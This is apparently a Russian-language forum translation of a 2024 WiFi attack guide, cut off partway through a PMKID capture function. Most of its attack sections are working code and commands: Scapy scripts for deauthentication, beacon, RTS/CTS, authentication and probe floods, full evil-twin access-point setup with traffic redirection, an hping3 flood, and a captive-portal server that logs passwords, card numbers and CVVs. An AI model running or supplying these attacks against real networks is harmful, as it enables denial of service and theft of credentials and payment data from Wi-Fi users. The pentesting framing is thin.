





Перевод:State of WiFi Security in 2024
Вообще я-бы настоятельно рекомендовал прочитать этот цикл статей на хабре:

Wi-Fi сети: проникновение и защита. 1) Матчасть
Синоптики предсказывают, что к 2016 году наступит второй ледниковый период трафик в беспроводных сетях на 10% превзойдёт трафик в проводном Ethernet . При этом от года в год частных точек доступа...
 habr.com
habr.com

Wi-Fi сети: проникновение и защита. 2) Kali. Скрытие SSID. MAC-фильтрация. WPS
Первая часть цикла была очень живо встречена хабрасообществом, что вдохновило меня на ускоренное написание следующей части. К предыдущей статье было оставлено много дельных комментариев, за что я...
habr.com

Wi-Fi сети: проникновение и защита. 3) WPA. OpenCL/CUDA. Статистика подбора
Баста карапузики, кончилися танцы. В предыдущей части мы детально рассмотрели «читерские» приёмы обхода «защит» (скрытие SSID, MAC-фильтрация) и защит (WPS) беспроводных сетей. И хотя работает это в...
habr.com
Введение
Лучше начать с очевидного: WiFi сети не безопасны. В моем опыте я никогда не сталкивался с сетью, которая не была бы уязвима хотя бы к одной из общедоступных эксплойтов.В этой статье мы сосредоточимся на выявлении большинства уязвимостей протокола 802.11, которые затрагивают как 2.4GHz, так и 5GHz WiFi сети.
Инструменты, которые мы будем использовать (Необходим также Линукс):
Что такое IEEE и его стандарты?
Как указано на официальном сайте IEEE SA, IEEE - это крупнейшая в мире техническая профессиональная организация, посвященная продвижению технологий на благо человечества.Стандарты - это опубликованные документы, которые устанавливают технические спецификации и процедуры, разработанные для максимального повышения надежности материалов, продуктов, методов и/или услуг, которые люди используют каждый день.
О стандартах IEEE 802.11
По данным Wikipedia: Семейство 802.11 состоит из серии полудуплексных методов модуляции по воздуху, использующих один и тот же базовый протокол. Семейство протоколов 802.11 использует множественный доступ с прослушиванием несущей и избежанием коллизий (CSMA/CA), при котором оборудование прослушивает канал на наличие других пользователей (включая не 802.11 пользователей) перед передачей каждого кадра (некоторые используют термин «пакет», что может быть неоднозначным: «кадр» является более технически корректным).Проще говоря, это стандарт, разработанный для беспроводных сетей и устройств, обычно называемых WiFi. Он работает на радиочастотах вместо кабеля, чтобы создать беспроводные локальные сети (WLAN).
Простые эксплойты
Мы будем называть самую простую часть нашей работы простыми эксплойтами. Их легко кодировать, они не требуют дней и дней разработки, они не занимают много времени для воздействия на сеть, и их довольно просто понять, даже новичкам.Список простых эксплойтов:
- Атака деаутентификации
- Заполнение маяков
- DoS атака RTS/CTS
- DoS атака с поддельной аутентификацией
- Заполнение запросов зондирования
- Атака с двойным замешательством
- Пинг смерти
Сложные эксплойты
Как следует из названия, их будет значительно труднее найти, разработать и использовать. Это не должно нас беспокоить — мы объясним и протестируем их по одному очень скоро.Список сложных эксплойтов:
- Повтор пакетов
- Атака Evil Twin
- Мониторинг пакетов (объяснение почему он здесь позже)
- Атака PMKID
- Захват рукопожатия
Эксплуатация
Мы можем назвать эксплуатацию - Пентестингом.Тестирование на проникновение — это метод пробования различных способов для получения доступа, нарушения работы, вызова отказа в обслуживании (DoS) и других…
В двух простых словах — Оценка уязвимости.
Как устроен кадр IEEE 802.11?
По данным GeeksForGeeks:- Кадр MAC: кадр уровня MAC состоит из 9 полей.
- Управление кадром (FC) — это поле длиной 2 байта, которое определяет тип кадра и некоторую управляющую информацию.
- Управление последовательностью (SC) — это поле длиной 16 бит, состоящее из 2 подполей: номера последовательности (12 бит) и номера фрагмента (4 бита).
- Данные — это поле переменной длины, содержащее информацию, специфичную для отдельных кадров, которые передаются прозрачно от отправителя к получателю (ам).
Необходимое оборудование для сетевого пентестинга:
- WiFi адаптер, поддерживающий режим мониторинга и инъекцию кадров (например, TP-Link WN722N, ALFA Adapters)
- Python с установленным фреймворком Scapy
- Опционально: ‘Freeway’
Код:
$ sudo pip install 3wayАтака деаутентификации
В каждом примере мы сосредоточимся на теоретической части атаки, а также на практической реализации (с использованием Freeway).Атака деаутентификации относится к атакам отказа в обслуживании (DoS), которые приводят к временной (в редких случаях постоянной), несанкционированной отключению жертвы от целевой сети.
Это возможно не из-за какой-то магии, которую придумали хакеры, это относительно просто:
На самом деле, это возможно, потому что кадр деаутентификации "используется для завершения WiFi соединения. Его может отправить как точка доступа, так и станция, чтобы уведомить другую сторону о закрытии соединения." — Spacehuhn Blog.
Мы отслеживаем текущее сетевое окружение, используя любой мониторинговый инструмент, чтобы получить MAC-адрес жертвы и целевой сети (или только целевой сети), и создаем кадр деаутентификации, используя, например, Scapy.
Затем просто отправляем созданный пакет в целевую сеть.
Python:
def _deauth_(self, client_mac, ap_mac, interface, pair=None):
dot11 = Dot11(addr1=client_mac, addr2=ap_mac, addr3=ap_mac)
deauth = Dot11Deauth(reason=7)
packet = RadioTap()/dot11/deauth
print(f"Deauthing {client_mac} from {ap_mac}")
bullets = random.randint(25, 40) # Пакеты
sendp(packet, iface=interface, count=bullets, inter=0.01, verbose=False)Если у нас нет MAC-адреса жертвы или мы не уверены, мы можем просто ввести широковещательный адрес, чтобы отключить ВСЕ устройства от сети:
Python:
client_mac = "FF:FF:FF:FF:FF:FF"Атака деаутентификации с использованием Freeway
Мы можем пропустить часть кодирования и запустить атаку прямо из интерфейса командной строки (CLI):
Python:
$ sudo Freeway -i wlan1 -a deauthАтака на заполнение маяков
Этот метод чрезвычайно прост, так как он просто создает огромное количество WiFi маяков (фейковых сетей), которые клиент может видеть, но не может подключиться к ним. Эта атака может быть отнесена к методам нарушения работы сети, а также к DoS. Это эффективно, пока устройство не может справиться с большим количеством отображаемых сетей.Возьмем, например, iPhone: когда рядом много сетей, iOS фильтрует те точки доступа, которые находятся далеко, показывая только ближайшие. Кроме того, он обрезает список при каждом сканировании, так что нам не нужно беспокоиться о том, что наш телефон покажет тысячу точек доступа (или больше).
Android (8+) для этого фильтрует большинство этих поддельных кадров маяков.
Это не является недостатком стандарта IEEE, но тестом возможностей устройства справляться с максимальным количеством отображаемых сетей или поврежденными кадрами маяков.
Python:
def craft_beacon_packet(self, ssid, src_mac="12:34:56:78:9a:bc", dst_mac="ff:ff:ff:ff:ff:ff", bssid="12:34:56:78:9a:bc"):
# Radiotap, Dot11, beacon, and SSID elements
radiotap = RadioTap()
dot11 = Dot11(type=0, subtype=8, addr1=dst_mac, addr2=src_mac, addr3=bssid)
beacon = Dot11Beacon(cap='short-slot+ESS+privacy', beacon_interval=0x64)
essid = Dot11Elt(ID='SSID', info=ssid.encode('utf-8')) # Ensure SSID is properly encoded
# Supported rates (standard rates + some higher rates for compatibility)
rates = Dot11Elt(ID='Rates', info=b'\x82\x84\x8b\x96\x0c\x12\x18\x24')
esrates = Dot11Elt(ID='ESRates', info=b'\x30\x48\x60\x6c') # Extended Supported Rates
# Channel set to a more common one (e.g., channel 1)
dsset = Dot11Elt(ID='DSset', info=b'\x01') # Common channel
# Traffic Indication Map (TIM)
tim = Dot11Elt(ID='TIM', info=b'\x00\x01\x00\x00')
# ERP Information (Optional, but can help with compatibility)
erp = Dot11Elt(ID='ERPinfo', info=b'\x00')
# Country information set to PL (Poland)
country = Dot11Elt(ID='Country', info=b'PL \x00\x01\x0b\x1e')
# RSN Information
rsn_info = Dot11Elt(ID='RSNinfo', info=(
b'\x01\x00' # RSN Version 1
b'\x00\x0f\xac\x04' # Group Cipher Suite: AES (CCMP)
b'\x01\x00' # 1 Pairwise Cipher Suite
b'\x00\x0f\xac\x04' # Pairwise Cipher Suite: AES (CCMP)
b'\x01\x00' # 1 Authentication Key Management Suite (AKM)
b'\x00\x0f\xac\x02' # AKM Suite: PSK
b'\xac\x00' # RSN Capabilities (MFP capable)
))
# Assembling the packet
packet = radiotap / dot11 / beacon / essid / rates / esrates / dsset / tim / erp / country / rsn_info
return packetИли с использованием Freeway:
Код:
$ sudo Freeway -i wlan1 -a beacon_spamРезультат в основном зависит от количества потоков при использовании Freeway или от скорости отправки пакетов маяков в других инструментах. В случае Freeway, количество потоков 1 приведет к появлению примерно одной новой поддельной сети на одно сканирование сети (iOS), а с увеличением количества потоков сложно подсчитать. Вот результат запуска заполнения маяков в 10 потоков.

Они все появились после одного сканирования сети.
RTS/CTS DoS
Кадры RTS (Ready To Send) и CTS (Clear To Send) используются станциями и точками доступа для сигнализации о том, что канал, по которому они обмениваются данными, будет занят.Для диапазона 2.4GHz существует 11 каналов, а для 5GHz — 19 каналов (36–48, 52–64 и 100–140 обычно доступны).
Понятно, что когда канал занят, трафик останавливается. В большинстве случаев он просто замедляется, а не останавливается полностью. Это связано с тем, что многие современные устройства могут переключаться на другой канал, когда текущий занят.
С помощью Packet Monitor мы можем сканировать соседние сети, чтобы увидеть, на каких каналах они работают, а затем просто изменить канал нашего адаптера на тот, который является нашей целью.
Список адаптеров
Код:
$ sudo ifconfigИзменение канала
Код:
$ sudo iw dev wlan1 set channel 11
Python:
def random_duration(self):
return random.randint(0x0001, 0xFFFE)
def construct_cts_frame(self, ap_mac):
duration = self.random_duration()
cts_frame = RadioTap() / Dot11(type=1, subtype=12, addr1=ap_mac, ID=duration)
return cts_frame
def construct_rts_frame(self, src_mac, dest_mac):
duration = self.random_duration()
rts_frame = RadioTap() / Dot11(type=1, subtype=11, addr1=dest_mac, addr2=src_mac, addr3=dest_mac, ID=duration)
return rts_frameМы ввели случайную продолжительность, чтобы сделать атаку менее предсказуемой.
Запуск атаки с использованием Freeway:
Код:
$ sudo Freeway -i wlan1 -a fuzzer -p 2Атака с поддельной аутентификацией
Техника DoS, при которой мы отправляем кадры аутентификации и/или ассоциации на целевую точку доступа, чтобы занять ее. В результате легитимные подключения не могут быть установлены, но это также делается для тестирования максимального количества подключенных клиентов. Иногда значение максимальных клиентов может достигать бесконечности, в то время как в других случаях точка доступа может отключиться при 350 клиентах и перезагрузиться.Схема аутентификации
Кадр запроса аутентификации:- Номер алгоритма: указывает используемый алгоритм аутентификации (например, аутентификация открытой системы).
- Номер последовательности: идентифицирует кадр в обмене аутентификацией (обычно 1 для запроса).
- Номер алгоритма: соответствует номеру алгоритма из кадра запроса.
- Номер последовательности: увеличивает номер последовательности из запроса (обычно 2 для ответа).
- Код состояния: указывает на успешность или отказ аутентификации (например, «Успешно» или «Отказано»). Для успешной аутентификации код состояния равен 0.
- Информация о возможностях: указывает возможности клиентского устройства, такие как поддерживаемые скорости передачи данных и функции безопасности.
- Интервал прослушивания: указывает, как часто клиентское устройство будет просыпаться для проверки буферизованных кадров от точки доступа.
- SSID: имя сети, к которой пытается присоединиться клиентское устройство.
- Поддерживаемые скорости: список скоростей передачи данных, которые может использовать клиентское устройство.
- Информация RSN (по желанию): если используется WPA2 или WPA3, включает информацию о поддерживаемых протоколах и шифрах безопасности клиентского устройства.
- Информация о возможностях: повторяет возможности точки доступа.
- Код состояния: указывает на успешность или отказ ассоциации (например, «Успешно» или «Отказано»). Для успешной ассоциации код состояния равен 0.
- Идентификатор ассоциации (AID): уникальный идентификатор, назначаемый клиентскому устройству точкой доступа.
- Поддерживаемые скорости: список скоростей передачи данных, согласованных между точкой доступа и клиентским устройством.
Автоматизация атаки с использованием Scapy
Python:
def construct_auth_frame(self, ap_mac, client_mac, algo=0, seq_num=1, status_code=0):
auth_frame = RadioTap() / Dot11(type=0, subtype=11, addr1=ap_mac, addr2=client_mac, addr3=ap_mac) / Dot11Auth(algo=algo, seqnum=seq_num, status=status_code)
return auth_frame
def construct_asso_frame(self, ap_mac, client_mac):
ssid = Dot11Elt(ID="SSID", info=self.ssid, len=len(str(self.ssid)))
asso_frame = RadioTap() / Dot11(type=0, subtype=0, addr1=ap_mac, addr2=client_mac, addr3=ap_mac) / Dot11AssoReq(cap=0x1100, listen_interval=0x00a) / ssid
return asso_frameКоманда Freeway:
Python:
$ sudo Freeway -i wlan1 -a fuzzer -p 3Атака на заполнение запросов зондирования
Точка доступа должна ответить на каждый запрос зондирования ответом зондирования. Ответ зондирования содержит информацию о сети, такую как шифрование, SSID, MAC, каналы и многое другое. Это может перегрузить точку доступа и занять ее потоки до тех пор, пока она не ответит на все запросы.В реальных сценариях, таких как переполненные торговые центры или густонаселенные городские районы, такие атаки могут остаться незамеченными. Многие устройства, особенно те, у которых включен Wi-Fi и настроены на поиск открытых сетей (как часто бывает на iOS), постоянно сканируют доступные сети, отправляя запросы зондирования. Эта постоянная фоновая активность создает среду, в которой злоумышленник может ввести поток запросов зондирования, сливаясь с легитимным трафиком.
Важно отметить, что запрос зондирования — это начальный шаг в процессе ассоциации Wi-Fi. Клиентское устройство отправляет запрос зондирования, чтобы обнаружить доступные сети, и точка доступа отвечает ответом зондирования, содержащим запрашиваемую информацию. Эта информация затем используется клиентским устройством для решения, к какой сети присоединиться и начать процесс аутентификации и ассоциации.
Создание пакета с запросом зондирования с использованием Scapy
Python:
def construct_probe_req_frame(self, src_mac):
dot11 = Dot11(type=0, subtype=4, addr1="ff:ff:ff:ff:ff:ff", addr2=src_mac, addr3=src_mac)
probe_req = Dot11ProbeReq()
ssid = Dot11Elt(ID="SSID", info=self.ssid, len=len(str(self.ssid)))
probe_req_frame = RadioTap() / dot11 / probe_req / ssid
return probe_req_frameПример с использованием Freeway:
Python:
$ sudo Freeway -i wlan1 -a fuzzer -p 5Twin Confusion
Это больше относится к фишингу, является ранней частью атаки Evil Twin, где мы маскируемся под легитимную точку доступа, чтобы заставить клиентов целевой сети подключиться к нашей.Способ работы этого прост: чем ближе клиент к той же сети, тем вероятнее его устройство подключится к ближайшей известной точке доступа.
Сначала сканируем сеть, которую хотим клонировать, копируем MAC и SSID точки доступа, а затем можем хостить нашу точку доступа с использованием hostapd и dnsmasq:
Код:
$ sudo apt-get update
$ sudo apt-get install hostapd dnsmasq
$ sudo systemctl unmask hostapd
$ sudo systemctl stop hostapd
$ sudo systemctl stop dnsmasqТеперь нам нужно настроить обе службы:
Конфигурация hostapd
Код:
$ sudo nano /etc/hostapd/hostapd.conf
interface=wlan0
driver=nl80211
ssid=CLONE_SSID_HERE
hw_mode=g
channel=10
macaddr_acl=0
auth_algs=1
ignore_broadcast_ssid=0
logger_syslog=-1
logger_syslog_level=0
logger_stdout=-1
logger_stdout_level=0
Код:
$ sudo nano /etc/default/hostapd
DAEMON_CONF=/etc/hostapd/hostapd.confКонфигурация dnsmasq
Код:
$ sudo nano /etc/dnsmasq.conf
interface=wlan0
dhcp-range=10.0.0.20,10.0.0.150,12hНастройка iptables, маршрутизации и ifconfig
Код:
sudo ifconfig wlan1 10.0.0.15 netmask 255.255.255.0 up
sudo sh -c "echo 1 > /proc/sys/net/ipv4/ip_forward"
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
sudo iptables -t nat -A PREROUTING -i wlan1 -p tcp --dport 80 -j DNAT --to-destination 10.0.0.15
sudo iptables -A FORWARD -i wlan1 -p tcp --dport 80 -d 10.0.0.15 -j ACCEPTВ случае возникновения проблем, можно узнать больше, прочитав код, доступный по ссылке:Freeway/FreewayTools/evil_twin.py at main · FLOCK4H/Freeway
Таким образом, мы успешно настроили нашу точку доступа, осталось только одно. Изменить MAC-адрес:
Код:
$ sudo ifconfig wlan0 down
$ sudo ifconfig wlan0 hw ether MAC_ADDRESS_HERE
$ sudo ifconfig wlan0 upВот и все, клон существующей сети готов.
Атака Ping of Death
Эта атака может быть выполнена в любой сети: LAN, WLAN, WAN.Помните классический метод проверки интернет-доступа?
Код:
$ ping google.com
64 bytes from waw02s22-in-f14.XXX.net (142.250.XXX.XXX): icmp_seq=1 ttl=128 time=32.4 ms
64 bytes from waw02s22-in-f14.XXX.net (142.250.XXX.XXX): icmp_seq=2 ttl=128 time=32.7 msАтака Ping of Death более жестока, но менее многословна. Чтобы выполнить эту атаку, нам нужно быть подключенными к любой сети, это может быть мобильная точка доступа, не имеет значения.
Сначала мы сканируем сеть на наличие целей:
Код:
$ sudo arp-scan --localnetПервый адрес, который появится, должен быть адресом точки доступа, но это не гарантировано. Мы можем выбрать этот первый адрес и посмотреть, останется ли у нас доступ в интернет через 2 минуты, или, если мы знаем IP-адрес одного из наших устройств, мы можем атаковать его, а не всю сеть.
Для этой атаки мы будем использовать hping.
Код:
$ sudo apt-get install hping3
$ sudo hping3 -I wlan1 -S TARGET_IP -p 400 --flood --rand-sourceЭта атака должна привести к отсутствию доступа в интернет, так как трафик полностью блокируется из-за перегрузки целевого устройства потоком пакетов.
Итог простых эксплойтов
На данном этапе мы должны были ознакомиться с основными уязвимостями Wi-Fi сетей. Есть еще несколько, таких как DNS cache poisoning или ARP spoofing, но, по моему честному мнению, они были рассмотрены достаточно раз.Теперь давайте перейдем к более сложной части.
Повтор пакетов
Первый сложный эксплойт — метод путаницы, при котором мы захватываем все близлежащие Wi-Fi кадры в первую секунду и отправляем их обратно в следующую.Повтор пакетов обычно считается техникой fuzzing. Fuzzing, в свою очередь, представляет собой предоставление недействительных, неожиданных или случайных данных в качестве входных данных в тестируемое программное обеспечение.
Он широко используется в тестировании безопасности для выявления уязвимостей, которые могут быть использованы злоумышленниками.
Мы можем использовать режим мониторинга адаптера для захвата близлежащих Wi-Fi пакетов, затем изменять их или оставлять как есть и снова передавать в эфир. Повторные кадры, такие как CTS/RTS, кадры маяков, деаутентификации и т. д., могут временно удерживать трафик или вызвать сбой и перезагрузку Wi-Fi чипов.
Реализация с использованием Scapy
Python:
class Sniffer:
def __init__(self, interface, console, collector, debug=False, target=None, results=None):
self.interface = interface
self.collector = collector
self.console = console
self.debug = debug
self.quant = 0
self.target = target
self.results = results
self.authenticated_clients = 0
def packet_handler(self, packet):
if thread_event.is_set():
return
self.collector.put(packet)
if self.debug:
self.console.print(f"Current packet: {packet}", style="green")
if self.target is not None:
if packet.haslayer(Dot11Auth) and packet.addr2 == self.target and packet.addr1 != self.target:
if self.debug:
self.console.print(f"Found! AP MAC: {packet.addr2} CLIENT: {packet.addr1}", style="red")
self.console.print(f"Adding to results!", style="red")
client_mac = packet.addr1
if client_mac not in self.results:
self.results[client_mac] = True
self.authenticated_clients += 1
def run_sniff(self):
while not thread_event.is_set():
try:
sniff(iface=self.interface, prn=self.packet_handler, store=0, monitor=True)
time.sleep(1)
except OSError as e:
wprint(f"Network error: {e}")
# В другом классе
def packet_reply(self, interface):
while not thread_event.is_set():
if not self.collector.empty():
packet = self.collector.get()
safe_send(packet, iface=interface, count=1, verbose=False)
self.console.print(f"Packet sent! Packet: {packet}", style="blue")Запустите его с использованием Freeway:
Код:
sudo Freeway -i wlan1 -a fuzzer -p 1Атака Evil Twin
Как уже упоминалось ранее в Twin Confusion, первая часть атаки заключается в маскировке под существующую точку доступа. Затем мы можем разместить captive portal, который будет перенаправлять каждого пользователя, пытающегося подключиться к сети, на наш сайт. Таким образом, можно выполнить сбор учетных данных, атаки социальной инженерии, внедрение вредоносного ПО и многое другое.Теперь позвольте мне просто процитировать себя:
"Способ работы этого прост: чем ближе клиент к той же сети, тем вероятнее его устройство подключится к ближайшей известной точке доступа."
Комбинируя атаку деаутентификации с Evil Twin, мы можем заставить клиентов подключиться к нашей сети, отключив их от легитимной.
Для выполнения атаки после завершения всех шагов настройки Twin Confusion мы разместим веб-сервер с тем же IP, что и у нашей точки доступа, но на порту 80 (http).
Для этого можно использовать lighttpd:
Код:
$ sudo apt-get install lighttpdЗатем на Python:
Python:
class CaptivePortalHandler(SimpleHTTPRequestHandler):
def do_GET(self):
try:
if self.path == '/hotspot-detect.html':
self.path = '/index.html'
elif self.path == '/action.html':
self.path = '/action.html'
elif not os.path.exists(self.path[1:]):
self.path = '/index.html'
return SimpleHTTPRequestHandler.do_GET(self)
except Exception as e:
self.send_error(500, f"Internal server error: {str(e)}")
def do_POST(self):
try:
if self.path == '/action.html':
content_length = int(self.headers['Content-Length'])
post_data = self.rfile.read(content_length)
fields = dict(x.split('=') for x in post_data.decode().split('&'))
username = fields.get('username', '')
password = fields.get('password', '')
credit_card = fields.get('credit', '')
expiry_date = fields.get('expire', '')
cvv = fields.get('cvv', '')
if credit_card == '':
print(f"{cc.BRIGHT}{cc.GREEN}Captured credentials - {cc.BLUE}Username: {cc.WHITE}{username}, {cc.RED}Password: {cc.WHITE}{password}{cc.RESET}")
else:
print(f"{cc.BRIGHT}{cc.GREEN}Captured credentials - {cc.CYAN}Card number: {credit_card}, Expire date: {expiry_date}, CVV: {cvv}")
self.send_response(200)
self.send_header('Content-type', 'text/html')
self.end_headers()
with open('action.html', 'rb') as file:
self.wfile.write(file.read())
elif self.path == '/data':
content_length = int(self.headers['Content-Length'])
post_data = self.rfile.read(content_length)
data = json.loads(post_data.decode())
print(f"{cc.BRIGHT}{cc.GREEN}Collected Data: {cc.WHITE}{data}{cc.RESET}")
self.send_response(200)
self.send_header('Content-type', 'application/json')
self.end_headers()
self.wfile.write(json.dumps({'status': 'success'}).encode())
else:
self.send_response(404)
self.end_headers()
except Exception as e:
self.send_error(500, f"Internal server error: {str(e)}")
def handle_one_request(self):
try:
super().handle_one_request()
except Exception as e:
self.send_error(400, f"Bad request: {str(e)}")
class WebServer:
def __init__(self, ip_addr):
self.ip_addr = ip_addr
server_thread = threading.Thread(target=self.start_captive_portal)
server_thread.daemon = True
server_thread.start()
def get_template_name(self, template_dir):
if os.path.exists(template_dir):
templates = os.listdir(template_dir)
cprint("Listing templates...")
for i, item in enumerate(templates):
cprint(f"{i}) {item}")
temp_num = int(cinput("Enter template number"))
if 0 <= temp_num < len(templates):
return templates[temp_num]
return None
def start_captive_portal(self):
templates_dir = f"{script_dir}/templates"
if not os.path.exists(templates_dir):
os.makedirs(templates_dir, exist_ok=True)
choice_template = self.get_template_name(templates_dir)
if choice_template:
os.chdir(os.path.join(templates_dir, choice_template))
handler = CaptivePortalHandler
httpd = HTTPServer((self.ip_addr, 80), handler)
iprint(f"Serving captive portal on {cc.GREEN}http://{self.ip_addr}:80 {cc.RESET}")
print(cc.LIGHT_BLUE, cc.BRIGHT, "Evil Twin has started!", cc.BLUE)
httpd.serve_forever()
else:
print("No valid template selected. Exiting.")После подключения к захваченной Wi-Fi сети, код из ‘index.html’ будет отображен на экране клиента, текущий код выше настроен на прослушивание запросов полей имени пользователя и пароля, а также номера кредитной карты, срока действия и CVV.

Использование Freeway:
Код:
$ sudo Freeway -i wlan1 -a eviltwinМониторинг пакетов
Понимание потока текущей среды позволяет аудитору получать информацию, которая обычно недоступна для стандартного клиента (обычные WiFi адаптеры). С учетом всех доступных в настоящее время инструментов и единственного адаптера, поддерживающего режим мониторинга и инъекцию кадров, легко перехватывать весь трафик в эфире. Примером инструмента могут быть Wireshark, Aircrack-ng или kismet.Способность понимать и анализировать захваченные данные требует значительных знаний структуры WiFi кадров и стандарта IEEE 802.11, поэтому мониторинг пакетов находится в списке сложных эксплойтов. Без упомянутых выше инструментов, знакомства с ними и специального адаптера мы не сможем перехватывать/внедрять пакеты.
Мониторинг предоставляет следующую информацию:

- SSID
- MAC
- CLIENTS
- ENCRYPTION
- Data QoS (via audit in Freeway or airodump-ng monitor)
- PMKIDs (Freeway)
- Handshakes (Freeway)
- LAST SEEN (BEACON)
- Uptime (via audit in Freeway or airodump-ng monitor)
- SIGNAL
- CHANNEL
- MANUFACTURER
- HTTP Traffic (capture packets, and analyze with wireshark)
В отношении клиентов (станций), ищущих сеть или уже подключенных к ней:

- NAME (SSID list of the networks that device knows/ is looking for)
- MAC
- AP MAC (Mac address of the Access Point the device is connected to)
- LAST SEEN (Beacon)
- SIGNAL
- MANUFACTURER
Сначала включите режим мониторинга, затем скопируйте и выполните код на Python для захвата и логирования всех пакетов в консоль.
Python:
$ sudo iwconfig wlan1 mode monitor
Python:
from scapy.all import *
import queue
import time
import threading
class Sniffer:
def __init__(self, interface, collector):
self.interface = interface
self.collector = collector
def packet_handler(self, packet):
self.collector.put(packet)
print(f"Captured packet: {packet}")
def run_sniff(self):
while True:
try:
sniff(iface=self.interface, prn=self.packet_handler, store=0, monitor=True)
time.sleep(1)
except OSError as e:
print(f"Network error: {e}")
queue = queue.Queue()
sniffer = Sniffer("wlan0", queue)
threading.Thread(target=sniffer.run_sniff, daemon=True).start()Freeway
Код:
$ sudo Freeway -i wlan1 -a monitorАтака PMKID
PMKID (Pairwise Master Key Identifier) — это уникальный идентификатор, используемый в Wi-Fi сетях, которые реализуют протоколы безопасности WPA/WPA2. Он создается на основе MAC-адреса точки доступа, MAC-адреса клиентского устройства и Pairwise Master Key (PMK), используемого для шифрования.Атака PMKID заключается в захвате PMKID, транслируемого точкой доступа, и последующей попытке взломать соответствующий пароль WPA/WPA2 в офлайн-режиме.
Используя этот метод, мы можем использовать метод грубой силы для захваченного PMKID, и если нам повезет, пароль сети перестанет быть секретом.
Мы можем использовать инструменты мониторинга для захвата PMKID, затем декодировать эти пакеты с помощью Hashcat и словаря, такого как rockyou.txt.
Пример реализации захвата пакета в формате, совместимом с Hashcat
Python:
def handle_eapol_frame(self, packet, timestamp):
"""
Захват PMKID для всех сессий.
"""
src_mac = packet[Dot11].addr2
dst_mac = packet[Dot11].addr1
session_id = f"{src_mac}-{dst_mac}"
session_id_reversed = f"{dst_mac}-{src_mac}"
logging.debug(f"{timestamp}--Detected EAPOL Packet! Logging session-id: {session_id}")
if session_id not in self.pmkids:
self.pmkids[session_id] = {'num_frame': 0, 'first_eapol_frame': None, 'pmkid': None, 'mac_ap': None, 'mac_cl': None, 'packets': []}
if session_id_reversed in self.pmkids:
temp_data = self.pmkids[session_id]
del self.pmkids[session_id]
self.pmkids[session_id_reversed]['num_frame'] = temp_data['num_frame']
session_id = session_id_reversed
self.pmkids[session_id]['num_frame'] += 1
if self.pmkids[session_id]['num_frame'] == 1:
self.pmkids[session_id]['first_eapol_frame'] = bytes(packet[EAPOL])
self.pmkids[session_id]['pmkid'] = self.pmkids[session_id]['first_eapol_frame'][-16:].hex()
self.pmkids[session_id]['mac_ap'] = packet.addr2
self.pmkids[session_id]['mac_cl'] = packet.addr1
logging.debug(f"Detected 1st EAPOL PMKID packet for {self.pmkids[session_id]}")
if self.pmkids[session_id]['num_frame'] == 2:
if not src_mac in self.APs:
